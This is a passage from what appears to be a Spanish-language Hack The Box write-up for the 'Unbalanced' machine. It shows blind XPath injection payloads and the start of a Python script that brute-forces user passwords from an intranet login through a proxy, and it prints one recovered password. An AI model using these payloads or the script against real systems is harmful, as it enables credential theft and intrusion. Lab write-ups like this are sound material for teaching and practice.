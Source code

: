 ```html
' or substring(Username,1,1)='r' or '
```

![268pageritaquery](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unbalanced/268pageritaquery.png)

Perfecto, ahora solo nos muestra ese registro, lo que sigue es validar lo mismo pero con el campo `Password`, para esto podemos crearnos un script que nos ayude...

Tuve un problema y era que la letra que encontraba en el campo **Password** podía ser de cualquier usuario, simplemente la primera similitud hacia que pasara a la siguiente letra, por lo tanto obtenía una palabra con la mezcla de las contraseñas, así que la idea era que inicialmente tome un **Username** como referencia y a ese **Username** le extrajera el Password**. Después de varios problemas e intentar cosas "difíciles" o dejar de intentar cosas :( intente esta línea:

```html
' or substring(Username,1,4)='rita' and substring(Password,1,1)='a' or '
```

Esto jugando ya con bucles, arrays y demás cositas nos quedaría así:

```py
password = "' or substring(Username,1,4)='rita' and substring(Password,%d,1)='%s' or '" % (posicion, letra)
```

Que finalmente nos da como contraseña: `password01!`. Modificando mejor el script para que tome de una vez cada usuario y le extraiga su contraseña:

```py
#!/usr/bin/python3 

import requests, re
from pwn import *

intranet_url = "http://172.31.179.1/intranet.php"
proxy = {"http" : "http://10.10.10.200:3128"}

try:
    p1 = log.progress("XPath exploit")

    axyz = "abcdefghijklmnopqrstuvwxyz0123456789!\"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ABCDEFGHIJKLMNOPQRSTUVWXYZ"
    username = "anY0ne"
    users_array = ["rita", "jim", "bryan", "sarah"]
    letter_found = ""

    for name in users_array:

        p2 = log.progress("Username")
        p2.status("%s = " % (name))
        length_name = len(name)

        #Hacemos de cuenta que la cadena tiene un tamaño maximo de 24 caracteres.
        for col in range(1, 25):
            #Probamos cada letra, numero y simbolo del la variable -axyz-.
            for letter_array in axyz:
```